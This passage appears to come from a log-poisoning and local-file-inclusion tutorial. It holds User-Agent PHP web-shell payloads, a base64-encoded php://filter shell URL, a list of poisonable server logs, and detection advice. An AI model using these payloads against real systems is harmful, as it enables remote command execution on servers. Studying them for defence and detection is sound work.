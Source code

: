 ```
User-Agent: <?php passthru($_GET['cmd']); ?>
User-Agent: <?php shell_exec($_GET['cmd']); ?>
User-Agent: <?php exec($_GET['cmd']); ?>
User-Agent: <?php `$_GET['cmd']`; ?>
User-Agent: <?php echo `$_GET['cmd']`; ?>
```

### Filter Evasion with PHP wrappers

```
# Encode payload with base64 wrappers
http://vulnerable.com/index.php?page=php://filter/convert.base64-decode/resource=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2BCg%3D%3D
```

## Other Logs That Can Be Poisoned

```
# SSH auth logs
/var/log/auth.log
/var/log/secure

# Mail logs
/var/log/maillog
/var/log/mail.log

# FTP logs
/var/log/vsftpd.log
/var/log/proftpd/proftpd.log

# MySQL/MariaDB logs
/var/log/mysql/mysql.log
/var/lib/mysql/mysql-error.log

# Other web server logs
/var/log/httpd/*
```

## Detection and Prevention

### Detection

1. Monitor logs for suspicious User-Agent strings containing:
   - PHP tags: `<?`, `<?php`, `<%`
   - JavaScript tags: `<script>`
   - Encoding patterns: `\x`, `%`, `base64`

2. Use Web Application Firewalls (WAFs) or SIEM solutions to detect:
   - Abnormally long User-Agent strings
   - User-Agent strings containing code execution functions
   - Rapid requests with changing malicious User-Agents
